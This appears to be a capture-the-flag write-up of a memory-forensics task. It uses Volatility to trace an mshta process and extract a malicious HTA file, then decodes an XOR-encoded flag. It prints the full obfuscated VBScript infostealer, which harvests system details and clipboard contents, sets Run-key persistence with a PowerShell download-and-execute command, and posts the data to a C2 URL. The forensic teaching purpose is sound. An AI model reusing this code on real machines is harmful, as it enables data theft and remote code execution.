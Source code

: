 **Writeup author: Oslolosen**

_Use the same memory dump from Phantom Phish._ _The malware appears to be highly sophisticated. What could be its functionality?_

In this task, further investigation into the malware infecting the machine seems to be the objective, as suggested by the task description. During the previous analysis, suspicions were already raised about `heis.hta`.
```sh
vol3 -f dump.dmp windows.cmdline
	#Most valuble output
5696 mshta.exe "C:\Windows\system32\mshta.exe" http://192.168.88.130/heist.hta
```

This command output shows that `mshta.exe` executed an external HTA script. Based on experience, HTA files are often significant, as these types are frequently use them to inject malicious code in CTF-tasks. Further investigation in the process tree confirms if it was executed.
```sh
vol3 -f dump.dmp windows.pstree | grep -C 5 "mshta"
* 5368	628	userinit.exe	0xc50ce4455340	0	-	1	False
** 5416	5368	explorer.exe	0xc50ce4457340	83	-	1	False
*** 8200	5416	SecurityHealth	0xc50ce4b5b0c0	6	-	1	False
*** 10348	5416	powershell.exe	0xc50ce4d590c0	13	-	1	False
**** 5696	10348	mshta.exe	0xc50ce6975080	11	-	1	False
**** 6460	10348	conhost.exe	0xc50ce801c080	3	-	1	False
*** 8372	5416	msedge.exe	0xc50ce0f8a340	59	-	1	False
**** 7968	8372	msedge.exe	0xc50ce5c98080	17	-	1	False
**** 7836	8372	msedge.exe	0xc50ce45b5080	10	-	1	False
**** 9984	8372	msedge.exe	0xc50ce5c5c080	16	-	1	False
```

The presence of `mshta.exe` with the same PID in the process tree confirms that it was active. Now it is time to locate the potentially malicious file. From the previous task, I saved the output from `filescan`, so I checked if the file was present in memory.
```sh
cat filescan.txt | grep "heist"
0xc50ce994a580 \Users\Benjamin\AppData\Local\Microsoft\Windows\INetCache\IE\0RH8WS85\heist[1].hta
```

The output indicates that the file is located at `\Users\Benjamin\AppData\Local\Microsoft\Windows\INetCache\IE\0RH8WS85\heist[1].hta`, at the memory address `0xc50ce994a580`. With the address collected, the file can be dumped and examined. The code is somewhat difficult to read due to the simplistic variable names.
```sh
vol3 -f dump.dmp windows.dumpfiles --virtaddr 0xc50ce994a580
Volatility 3 Framework 2.5.2
Progress:  100.00		PDB scanning finished                                
Cache	FileObject	FileName	Result

DataSectionObject	0xc50ce994a580	heist[1].hta	file.0xc50ce994a580.0xc50ce6625910.DataSectionObject.heist[1].hta.dat
SharedCacheMap	0xc50ce994a580	heist[1].hta	file.0xc50ce994a580.0xc50ce5610950.SharedCacheMap.heist[1].hta.vacb
```

```vbscript
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")
b2 = utr("484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c52756e5c")
b3 = utr("4d6963726f736f6674204564676520496e7465677269747920436865636b6572")
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
	' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData(utr("54657874"))
If Len(data) > 0 Then
dsf = data
Else
dsf = utr("4e6f20636c6970626f617264206461746120666f756e64")
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = utr("68747470733a2f2f68656c697870657774657273656372657463322e6570742f737465616c65722e706870")
Set xmlhttp = CreateObject(utr("4D53584D4C322E536572766572584D4C48545450"))
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```
The code shows extensive VBScript containing significant hex data. The `utr` function translates the hex data into ASCII text. Pasting the hex data into CyberChef reveals its contents. For example, `b1` contains the command `IEX (New-Object Net.WebClient).DownloadString("https://helixpewtersecretc2.ept/keepAccessIfConnectionLost.ps1")`, which downloads a PowerShell script. Other variables also contain suspicious text.

The variable `dtg` stands out because it isn't processed by `utr`. Decoding the hex data only results in gibberish. The `dtg` variable is passed to the `hbr` function, which applies an XOR operation with a key.
```vbscript
##CODE
d2 = hbr(dtg, &H1337)

###CODE
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
```

To decode `dtg`, a simple Python script was written that revealed the flag:
```python
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"

def xor_decode(encoded_str, xor_key):
	decoded = ""

	for i in range(0, len(encoded_str), 2):
		char_code = int(encoded_str[i:i+2], 16)
		key_byte = 0x13 if (i // 2) % 2 == 0 else 0x37
		decoded += chr(char_code ^ key_byte)
	return decoded

decoded_dtg = xor_decode(dtg, 0x1337)
print("Flag:", decoded_dtg)
```

**FLAG: EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}**
